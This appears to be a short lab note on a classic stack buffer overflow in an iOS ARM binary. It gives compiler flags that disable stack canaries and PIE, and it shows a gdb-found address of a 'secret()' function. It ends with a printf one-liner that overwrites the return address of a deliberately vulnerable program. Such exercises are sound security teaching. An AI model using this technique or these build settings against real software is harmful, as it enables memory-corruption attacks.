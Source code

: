 Classic Stack Buffer Overflow
=============================

**An alias to compile without protection using clang**

Where ``-mno-thumb`` is used to force 32 bits instead of 16 bits, ``-fno-stack-protector`` to disable stack canaries and ``-fno-pie`` to disable ASLR.

``alias clangd="clang -isysroot /var/theos/sdks/iPhoneOS9.3.sdk -mno-thumb -fno-stack-protector -fno-pie"``

**An alias to sign a binary**

``alias sign="ldid -S"``

**Location of the iOS crash logs**

``/var/mobile/Library/Logs/CrashReporter``

**Pointer to "secret()"**

This can be found using ``disassemble secret`` in gdb.

0x0000bf58 (\\x58\\xbf\\x00\\x00)

**Using "printf" to input malicious data into the binary**

``printf "AAAABBBBCCCCDDDDEEEE\x58\xbf\x00\x00" | ./vulnerable``